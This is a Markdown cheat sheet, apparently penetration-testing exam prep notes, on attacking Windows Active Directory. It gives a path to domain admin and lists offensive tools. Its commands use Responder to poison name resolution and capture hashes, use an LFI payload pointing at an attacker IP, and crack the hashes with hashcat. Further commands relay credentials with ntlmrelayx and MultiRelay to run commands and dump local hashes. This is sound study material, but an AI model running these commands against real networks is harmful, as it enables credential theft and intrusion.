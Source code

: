 # Active Directory  
AD Overview and tools.   
## Contents 
- [Active Directory](#active-directory)
  * [Contents](#contents)
  * [Active Directory Overview](#active-directory-overview)
  * [My AD Cheatsheets](#my-ad-cheatsheets)
  * [Other Cheat Sheets](#other-cheat-sheets)
  * [References](#references)
    + [Important Files to Check on the DC](#important-files-to-check-on-the-dc)
  * [Tools](#tools)
  * [General Tools](#general-tools)
  * [Responder](#responder)   
  
## Active Directory Overview 
To gain control over a domain:  
Compromise member of Domain Admin group.   
Compromise domain controller -> can modify all domain-joined computers or execute applications on them. 

AD: depends on DNS server, typical DC hosts DNS server that is authoritative for a given domain.    
Account types: domain admins, service accounts (can be domain admins), local admins (can't access the DC), domain users.     
Authentication mechanisms: Kerberos (uses ticket granting tickets and services to authenticate users) or NTLM (traditional Windows authentication).     
Kerberos: default authentication service that uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain. Intended to be more secure than NTLM (uses 3rd party ticket authorization and stronger encryption).      
[PayloadAllTheThings - Most Common Paths to AD Compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)       
Typical AD pen test:
- Exploit host on domain and gain access  as a domain user 
- Enumerate domain users and groups.  
- Privilege escalate or move laterally. 
- Get Domain Admin or Service Account access and onto the domain controller.     

Common Ways to Get AD Creds:    
- NTLM Authenticated Services  
- LDAP Bind Credentials    
- Authentication Relays      
- Microsoft Deployment Toolkit   
- Configuration Files       

## My AD Cheatsheets
[Attacks](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/Attacks.md)        
[Lateral Movement](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/LateralMovement.md)   

 
## Other Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png)  
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## References      
[WADComs](https://wadcoms.github.io/)    
    
### Important Files to Check on the DC
    %SYSTEMROOT%\System32\ntds.dit             #AD database with user password hashes   
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup

## Tools   
C2 Frameworks:
[PowerShell Empire](https://github.com/BC-SECURITY/Empire), Covenant    
[evil-winrm](https://github.com/nubix/evil-winrm): access Windows RM, TCP port 5985 or 5986 open.   
Responder (Spoofing is not allowed in the labs or on the exam)   
Crackmapexec  
[BloodHound](https://github.com/BloodHoundAD/BloodHound), [SharpHound](https://github.com/BloodHoundAD/SharpHound) 
Rubeus   
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 )   
[Mimikatz](https://github.com/gentilkiwi/mimikatz), [Mimikatz Cheatsheet](https://offsec.red/mimikatz-cheat-sheet/)      

## General Tools 
[Impacket](https://github.com/SecureAuthCorp/impacket): collection on Python classes for working with network protocols.       
Can be finicky - you may need to uninstall / reinstall when updating.    

    #if not properly installed 
    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  
    
    #manual install (if inside a lab network)    
    upload Impacket files to target and run install script    
    sudo python3 setup.py install    
    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Responder 
Not allowed on the OSCP exam, but a common pen testing tool.                
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Responder Usage:   
 Config file: edit responder.conf to disable SMB / HTTP servers, change RespondTo arguement to target a specific host     

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
     sudo responder.py -I eth0 -A    #analyze / listen mode, no active poisoning    
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protocol hash type and IP captured from.      

    username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response   #NTLMv2 Responder capture format       
### Crack Hashes from Responder     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   

### NTLM Relay Attack       
Use NTLMRelay or MultiRelay to relay the credentials to any SMB server which has SMB signing disabled (can't relay the creds back to the source computer unless you are relaying them to a different service). Windows workstations have SMB signing disabled by default.          
[byt3bl33d3r Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)    
Recon: RunFinger.py or Crackmapexec to identify hosts, OS and SMB info. Check if SMB signing is not enabled and you can perform a relay attack:                    
 
    /opt/Responder/tools $ python3 RunFinger.py -i 172.16.1.1/24       
    crackmapexec smb --gen-relay-list smb_targets.txt 192.168.1.0/24

[NTLMRelay - Impacket Script](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
You might need to disable the SMB or HTTP servers used by Responder to avoid conflicts.    

    sudo python3 ntlmrelayx.py -tf targets -smb2support     
    sudo python3 ntlmrelayx.py -socks -smb2support -tf smb_targets.txt     
    
[MultiRelay - Built into the Responder Toolkit](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)     

    /opt/Responder/tools $ python3 MultiRelay.py -t 172.16.1.5 -u ALL -d    #Relay auth requests for all users, dump local account hashes   
    /opt/Responder/tools $ python3 MultiRelay.py -t 10.10.10.10 -c "whoami"   #exec a command    
    #can spawn a Meterpreter shell using exploit/multi/script/web_delivery using a PowerShell IEX command        
